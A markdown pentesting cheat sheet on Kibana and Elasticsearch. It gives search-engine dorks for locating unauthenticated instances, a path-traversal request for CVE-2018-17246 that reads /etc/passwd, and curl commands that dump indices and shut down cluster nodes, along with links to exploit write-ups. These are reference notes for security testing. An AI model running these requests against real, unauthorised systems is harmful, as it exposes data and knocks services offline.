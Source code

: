 # TOPIC
PENTESTING KIBANA SERVICE

# OVERVIEW
Kibana is a Data visualization tool.
It is an open source data visualization dashboard for Elastic Search.
It provides visualization capabilities on top of the indexed ElasticSearch cluster.
Users can visualize data, by their own needs like
	- pie
	- graph
	- charts

# TESTING KIBANA SERVICE
## CVE
- Since Kibana service is a third party tool, the first thing we must check is for CVEs.
- Check for unathenticated dashboards
- Check for information leak that are sensitive

## SHODAN DORKS
- title:"kibana" port:"443"
- kibana content-length: 217
Kibana would return a conent length of 217, on the presence of an unauthenticated dashboard instance.
Twitter Links : 
```
https://twitter.com/prateek_0490/status/1164564646738530304
https://twitter.com/emenalf/status/1082935342477594624

```

## GOOGLE DORKS
- inurl:app/kibana
- inurl:app/kibana intext:Loading Kibana
- inurl:5601/app/kibana

## Elastic Search Kibana Console LFI (CVE-2018-17246)
- Make a request to the following endpoint : /etc/passwd
> GET /api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../etc/passwd
Twitter links :
```
https://twitter.com/IM_23pds/status/1074627634150006784
```

## ElasticSearch CVE-2015-1427 RCE Exploit
WRITE UP LINK :
```
http://carnal0wnage.attackresearch.com/2015/03/elasticsearch-cve-2015-1427-rce-exploit.html

```


## OTHER TIPS
-  List All indexes
> curl -X GET http://localhost:9200/_cat/indices?v
-  List all docs in index
> curl -X GET http://localhost:9200/<index_name>/_search
> curl -X GET http://localhost:9200/esmapping/_search
-  Shutting Down Nodes 
> curl -X POST http://localhost:9200/_shutdown
> curl -XPOST 'http://localhost:9200/_cluster/nodes/_master/_shutdown

Original Post : https://www.facebook.com/ExWareLabs/posts/elasticsearch-pentest-tip1-list-all-indexescurl-x-get-httplocalhost9200_catindic/2496305100433349/

## CVE-2019-7609
- Proof of Concept: https://github.com/mpgn/CVE-2019-7609

## REFERENCE TIPS ON PENTESTING KIBANA
- https://book.hacktricks.xyz/pentesting/5601-pentesting-kibana
- https://book.hacktricks.xyz/pentesting/9200-pentesting-elasticsearch

## ALREADY KNOWN VULNERABILITIES
- https://www.cybersecurity-help.cz/vdb/SB2020072815
- https://www.cvedetails.com/vulnerability-list/vendor_id-13554/product_id-31867/Elasticsearch-Kibana.html



# REFERNCES AND GOOD READS
a. https://insinuator.net/2021/01/pentesting-the-elk-stack/#kibana
b. https://medium.com/@InfoSecIta/kibana-the-new-toy-for-pentesters-bughunters-hackers-e72048bd98b0
c. https://www.marcolancini.it/2018/blog-elk-for-nmap/
d. https://resources.infosecinstitute.com/topic/learning-pentesting-metasploitable3-exploiting-elasticsearch/
e. https://www.tenable.com/blog/cve-2019-7609-exploit-script-available-for-kibana-remote-code-execution-vulnerability

